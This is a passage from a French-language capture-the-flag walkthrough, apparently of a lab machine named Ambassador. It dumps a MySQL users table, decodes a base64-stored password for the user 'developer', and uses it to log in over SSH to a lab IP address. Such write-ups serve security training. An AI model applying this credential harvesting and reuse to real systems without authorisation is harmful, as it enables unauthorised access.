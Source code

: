 On affiche toutes les colonnes de la tables **users** :

```sql
MySQL [whackywidget]> SELECT * FROM users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.014 sec)
```

Le mot de passe semble être encodé en base64. Décodons ce mot de passe :

```bash
$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```

Nous venons donc de trouver le mot de passe de l'utilisateur **developer**.

* * *

## SSH

Essayons de nous connecter en ssh avec l'utilisateur **developer** :

```bash
$ ssh developer@10.129.228.56
The authenticity of host '10.129.228.56 (10.129.228.56)' can't be established.
ECDSA key fingerprint is SHA256:+BgUV7q/7f6W3/1eQWhIKW2f8xTcBh3IM0VwbIAp2A8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.56' (ECDSA) to the list of known hosts.
developer@10.129.228.56's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 09 Mar 2023 11:54:39 AM UTC

  System load:           0.0
  Usage of /:            84.6% of 5.07GB
  Memory usage:          42%
  Swap usage:            0%
  Processes:             224
  Users logged in:       0
  IPv4 address for eth0: 10.129.228.56
  IPv6 address for eth0: dead:beef::250:56ff:fe96:21ea


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$
```
